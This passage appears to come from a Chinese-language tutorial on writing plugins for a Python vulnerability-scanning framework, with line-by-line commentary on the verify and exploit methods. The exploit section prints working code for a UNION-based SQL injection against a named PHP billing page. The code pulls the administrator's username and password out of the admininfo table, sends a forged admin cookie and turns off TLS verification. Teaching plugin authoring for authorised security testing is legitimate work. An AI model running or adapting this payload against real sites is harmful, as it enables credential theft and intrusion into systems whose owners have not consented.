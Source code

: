 
代码解释:

    line 1: 定义 verify 方法
    line 2: 调用 print_debug 方法输出调试信息, 在选择调试模式下, 会将此消息输出
    line 7: self.option.url 就是我们所定义输入的 url , 在这里可以获取用户在命令行输入的 url
            例如: 使用 self.option.xxx 就可以获取在命令行输入的 xxx 的值
    line 20: self.result.status 就是我们所定义输出的 status, 检测目标url存在漏洞, 设置 self.result.status ＝ True
            例如: 使用 self.result.xxx 就可以获取或设置result 的结果
    line 22: 设置 result.description, 最终会在报表中直接显示



定义exploit方法
-------------------------
经过上一步, 我们完成了 ``verify`` 方法的实现, 下面我们继续实现 ``exploit`` 方法。
``exploit`` 方法带着攻击意图, 为了获取管理员信息, 直接获取服务器权限等, 能够方便的让安全服务人员使用。

```python
def exploit(self):
    self.print_debug("exploit start")

    re_userinfo_pattern = re.compile(r'~~~(\w+?)\|\|\|(\w+?)~~~', re.IGNORECASE | re.DOTALL | re.MULTILINE)
    cookies = {'cookie': 'admin'}
    exp_url = ("{domain}/php/bill/list_userinfo.php?domain=fatezero.org&ok=1&cp=1 union select concat(0x7e7e7e,"
               "oid,0x7c7c7c,password,0x7e7e7e),2,3,4,5 from admininfo%23".format(domain=self.option.url))

    try:
        response = requests.get(exp_url, cookies=cookies, timeout=15, verify=False)
    except Exception, e:
        self.result.error = str(e)
        return

    re_result = re_userinfo_pattern.findall(response.content)
    if len(re_result) == 0:
        self.result.status = False
        return

    self.result.status = True
    self.result.data.user_info.username = re_result[0][0]
    self.result.data.user_info.password = re_result[0][1]
    self.result.description = "目标 {url} 存在sql注入, 目标管理员用户: {username}, 密码: {password}".format(
        url=self.option.url,
        username=self.result.data.user_info.username,
        password=self.result.data.user_info.password
    )
```


代码解释::

    line 1: 定义 exploit 方法
    line 2: 调用 print_debug 方法输出调试信息, 在选择调试模式下, 会将此消息输出
    line 4: 建立获取user_info的正则表达式, 建议在敏感信息周边加上特殊符号以便于正则获取, 也可以大程度减少误报
    line 15: 使用正则获取html页面中的信息
    line 20: 获取到敏感信息之后, 将status设置为 True
    line 21: 通过self.result.data.user_info.username = re_result[0][0] 可以很简单的设置结果中的username
    line 22: 通过self.resutl.data.user_info.password = re_result[0][1] 可以很简单的设置结果中的password
